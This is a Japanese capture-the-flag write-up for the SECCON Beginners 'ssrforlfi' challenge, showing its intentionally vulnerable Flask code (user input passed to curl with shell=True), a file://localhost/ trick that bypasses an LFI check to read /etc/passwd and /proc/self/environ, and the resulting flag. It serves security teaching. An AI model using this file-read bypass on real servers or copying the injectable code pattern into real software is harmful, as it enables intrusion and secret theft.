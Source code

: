 # ssrforlfi

## 問題文
SSRF？ LFI？ ひょっとしてRCE？  
[https://ssrforlfi.beginners.seccon.games](https://ssrforlfi.beginners.seccon.games)  
[ssrforlfi.tar.gz](files/ssrforlfi.tar.gz) 0a1fdf267d06a10949c09983834476a8b0aa84a5  

## 難易度
**easy**  

## 作問にあたって
問題文にある通り、SSRF、LFI、RCEといった脆弱性を取捨選択するbeginner問題として作りました。  
調べる要素があるとのことでeasyに格上げになりました。  
ググると解けます。  

## 解法
アクセスするとクエリパラメータ`?url=`で、指定したURLを閲覧できるサービスのようだ。  
```bash
$ curl 'https://ssrforlfi.beginners.seccon.games'
Welcome to Website Viewer.<br><code>?url=http://example.com/</code>
```
試しに`http://example.com`を指定してみる。  
```bash
$ curl 'https://ssrforlfi.beginners.seccon.games?url=http://example.com'
<!doctype html>
<html>
<head>
    <title>Example Domain</title>
~~~
```
取得出来ているようだ。  
ソースが配布されているため見ると、以下の通りであった。  
```python
import os
import re
import subprocess
from flask import Flask, request

app = Flask(__name__)


@app.route("/")
def ssrforlfi():
    url = request.args.get("url")
    if not url:
        return "Welcome to Website Viewer.<br><code>?url=http://example.com/</code>"

    # Allow only a-z, ", (, ), ., /, :, ;, <, >, @, |
    if not re.match('^[a-z"()./:;<>@|]*$', url):
        return "Invalid URL ;("

    # SSRF & LFI protection
    if url.startswith("http://") or url.startswith("https://"):
        if "localhost" in url:
            return "Detected SSRF ;("
    elif url.startswith("file://"):
        path = url[7:]
        if os.path.exists(path) or ".." in path:
            return "Detected LFI ;("
    else:
        # Block other schemes
        return "Invalid Scheme ;("

    try:
        # RCE ?
        proc = subprocess.run(
            f"curl '{url}'",
            capture_output=True,
            shell=True,
            text=True,
            timeout=1,
        )
    except subprocess.TimeoutExpired:
        return "Timeout ;("
    if proc.returncode != 0:
        return "Error ;("
    return proc.stdout


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=4989)
```
クエリに指定するURLには`^[a-z"()./:;<>@|]*$`にマッチする文字のみが利用できる。  
さらにSSRFとLFIの防止として、`http://`や`https://`では`localhost`へのアクセス禁止、`file://`では`os.path.exists(path)`で存在するファイルへのアクセス禁止が行われている。  
その後に`subprocess.run`にURLが渡り、curlされている。  
この箇所でのOSコマンドインジェクション(RCE)も怪しい。  
さらに、配布ファイルからフラグは環境変数にあることがわかる。  
つまり`/proc/self/environ`を読み取ることができればゴールとなる。  
RCEはクエリに指定できる文字の制限があるため厳しく、SSRFでファイルシステムにアクセスすることは難易度が高い。  
LFIでファイルを読み出す方針が最も簡単そうだ。  
そのためには`os.path.exists(path)`をバイパスする必要がある。  
Pythonでファイルが存在しないと判定され、curlでファイルが読み取れるパスの記法はないだろうか？
「file scheme」のようにGoogle検索し、[RFC 8089](https://datatracker.ietf.org/doc/html/rfc8089)などを読むと`file://hostname/path/to/file`でもアクセスできることがわかる(Wikipediaでもよい笑)。  
以下のように試してみる。  
```bash
$ curl 'file://localhost/etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
~~~
```
ファイルが読み取れた。  
Pythonでは`file://`が取り除かれているので、`localhost/etc/passwd`など存在するはずもない。  
この方式で`file://localhost/proc/self/environ`を読み取ればよい。  
```bash
$ curl 'https://ssrforlfi.beginners.seccon.games?url=file://localhost/proc/self/environ' -o -
UWSGI_ORIGINAL_PROC_NAME=uwsgiHOSTNAME=a84e51bef68dHOME=/home/ssrforlfiPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binLANG=C.UTF-8DEBIAN_FRONTEND=noninteractivePWD=/var/wwwTZ=Asia/TokyoUWSGI_RELOADS=0FLAG=ctf4b{1_7h1nk_bl0ck3d_b07h_55rf_4nd_lf1}
```
flagが得られた。  

## ctf4b{1_7h1nk_bl0ck3d_b07h_55rf_4nd_lf1}